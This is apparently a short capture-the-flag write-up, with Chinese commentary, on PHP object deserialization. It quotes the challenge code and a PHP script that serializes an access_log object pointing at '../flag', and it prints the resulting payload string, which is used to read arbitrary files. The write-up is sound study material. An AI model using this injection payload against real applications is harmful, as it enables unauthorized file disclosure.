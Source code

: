 ```php=
	function append_to_log($data) {
		file_put_contents($this->log_file, $data, FILE_APPEND);
	}

	function read_log() {
		return file_get_contents($this->log_file);
	}
}

require_once("cookie.php");
if(isset($perm) && $perm->is_admin()){
	$msg = "Welcome admin";
	$log = new access_log("access.log");
	$log->append_to_log("Logged in at ".date("Y-m-d")."\n");
} else {
	$msg = "Welcome guest";
}
?>
```

+ 在authentication.phps中有一個access_log類別

+ access_log 物件帶上 `../flag` 的序列化
```php=
<?php
class access_log
{
    public $log_file;

    function __construct($lf)
    {
        $this->log_file = $lf;
    }

    function __toString()
    {
        return $this->read_log();
    }

    function append_to_log($data)
    {
        file_put_contents($this->log_file, $data, FILE_APPEND);
    }

    function read_log()
    {
        return file_get_contents($this->log_file);
    }
}

// 創建 access_log 物件
$accessLog = new access_log("../flag");

// 序列化 access_log 物件
$serializedData = serialize($accessLog);

// 輸出序列化後的資料
echo $serializedData;
?>

```
`O:10:"access_log":1:{s:8:"log_file";s:7:"../flag";}`
